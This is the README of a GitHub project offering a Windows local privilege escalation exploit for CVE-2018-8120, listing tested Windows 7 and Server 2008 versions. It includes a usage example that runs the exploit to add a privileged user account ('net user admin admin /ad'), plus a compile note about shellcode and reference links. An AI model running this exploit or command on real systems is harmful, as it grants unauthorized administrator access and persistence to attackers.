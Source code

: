 # CVE-2018-8120
CVE-2018-8120 Windows LPE exploit

Supports both x32 and x64.

Tested on: Win7 x32, Win7 x64, Win2008 x32, Win2008 R2 x32, Win2008 R2 x64.

![image](https://github.com/unamer/CVE-2018-8120/blob/master/screenshot.bmp)

## Usage
```shell
CVE-2018-8120 exploit by @unamer(https://github.com/unamer)
Usage: exp.exe command
Example: exp.exe "net user admin admin /ad"
```
## Caution
* Please exclude shellcode.asm if you wanna compile x32 version.

## Reference
* https://xiaodaozhi.com/exploit/156.html
* https://github.com/bigric3/cve-2018-8120

